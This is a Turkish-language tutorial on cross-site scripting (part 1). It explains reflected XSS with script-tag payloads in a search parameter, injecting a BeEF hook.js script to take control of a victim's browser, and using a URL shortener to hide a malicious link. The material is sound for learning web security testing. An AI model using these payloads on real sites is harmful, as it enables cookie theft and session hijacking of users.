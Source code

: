 # **0x08 | XSS hakkında herşey part 1**

## **XSS nedir?**

Açılımı cross site scripting'tir ve siteler arası betik çalıştırma olarak çevrilebilir. Xss, bir çeşit js enjeksiyonu gibi düşünülebilir. Bir web uygulamasının frontend 
kısmına yönelik bir saldırıdır.

## **XSS nerede bulunur?**

Browsera dönen response'un içeriğinde html, css ve js bulunur. Bir siber güvenlikçi perspektifiyle bakacak olursak bizim için js her zaman daha önemlidir. Çünkü js 
uygulamanın hareket kabiliyetini belirler. XSS, %99 ihtimalle browsera dönen response'un body'sinde bulunur. 

<img width="1153" height="581" alt="image" src="https://github.com/user-attachments/assets/06e5ce8c-241f-4345-b66c-14ce0efbed57" />

Arama kısmında "mehmet" şeklinde arama yapıldığında sayfada input görülebilmektedir. 

<img width="474" height="60" alt="image" src="https://github.com/user-attachments/assets/379af923-fee4-483c-a367-ac33d679c1bf" />

Sayfanın html'i incelendiğinde de aynı şekilde görülebilmektedir.

<img width="400" height="46" alt="image" src="https://github.com/user-attachments/assets/be6e3446-0980-4420-bf05-561b748b7e65" />

Browserdan web sunucusuna bir post reqesti gider ve requestte bulunan query string ya da post parametreleri ile arama kısmına yazılan içerik sunucuya ulaşır. Kullanıcının kontrol edebildiği bu mekanizma xss açığı barındırabilir. 

## **DOM(Document Object Model) Mimarisi**

Bir web sitesinde sayfayı incele kısmına tıklanıp görülen içerik ile sayfanın kaynak kodu arasında fark vardır. Çünkü sayfanın kaynak kodundaki içerik browser tarafından yorumlanmıştır. Kaynak kod kısmındaki js kodları browser'ın interpreter'ı tarafından çalıştırılmıştır ve bu js kodları DOM'un üstündeki hareketleri değiştirir. Http response'un içerisindeki html içerik, browser için bir inputtur ve bir hacker'ın amacı bu input'un içinde ufak manipülasyonlar yapmaktır. 

Site içerisinde bir arama kutusuna isim yazdınız ve url'de bu hale geldi.

```
www.x.com/?keyword=mehmet
```

Kaynak kodu ise bu hale.

```
<div id="content">
 <h2 id='pageName'>searched for: mehmet</h2>
</div>
```

Eğer biz isim yazdığımız yere bu şekilde bir js kodu yazarsak yazılımcının istemediği bir şey yapmış oluruz.

```
www.x.com/?keyword=<script>alert()</script>
```

Koda da bu şekilde yansır.

```
<div id="content">
 <h2 id='pageName'>searched for: <script>alert()</script></h2>
</div>
```

Browser, <script>alert()</script> kısmını çalıştırmaması gerektiğini anlayamaz ve js kodunu çalıştırır. İşte xss'in başladığı nokta burasıdır. 

## **Verilerin farklı ortamlardaki durumu**

Web uygulamasına girilen data, php interpreterında bir data olsa da browsera response olarak geri döndüğünde data artık tag olur ve bu xss'i doğurur. 

<img width="434" height="201" alt="image" src="https://github.com/user-attachments/assets/dcc0a012-53ac-40f8-9cc3-a2195f906f78" />

Neden sürekli <script>alert()</script> denendiği sebebine gelirsek. Bu, pop-up çalıştırmamızı ve zafiyetin tespit edilmesini sağlar. İşin sömürü kısmına gelecek olursak frontend kısmının bozulması, cookilerin ve sessionların çalınması gibi şeylere yol açar xss.

## **BEEF XSS exploitation framework**

BeEF, profesyonel penetrasyon test cihazının istemci taraflı saldırı vektörlerini kullanarak gerçek bir hedef güvenlik ortamını değerlendirebilmesini sağlayan bir framework'tür.

Beef'i çalıştırdıktan sonra terminalde çıkan 2 ip.

```
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]  Hook: <script src="http://127.0.0.1:3000/hook.js"></script>
```

"<script>alert()</script>" ile xss'in tespit edildiği yerde "<script src="http://127.0.0.1:3000/hook.js"></script>" çalıştırıyoruz ve beef panelinde online browsers kısmında siteyi görüyoruz. Burdan sonra command kısmında gelip cookielerin çalınmasından sosyal mühendislik saldırılarına kadar pek çok şey yapılabilir.

## **Reflected XSS**

Şimdiye kadar anlatılan xss aslında reflected xss idi. Türkçesi yansıyan xss anlamına gelen bu zafiyet türü, requesti gönderen bir kişinin browser'ında gerçekleşir. Birçok kullanıcının request-response cycle'ı vardır ve bunlar birbirinden bağımsızdır. Bu yüzden de bir saldırgan reflected xss bulduğu zaman bu başka kullanıcılar tarafından görülmez. 

Url shortener sitesine aşağıdaki url'i verildiğinde

```
http://boylebirsiteyok/?keyword=<script>alert(1)</script>
```

böyle bir url'e dönüştürecektir.

```
https://shorturl.at/mh965
```

Bu url'e tıklayan bir kullanıcı, hedef websitesine gider ve giderken browser tüm cookieleri ekler.
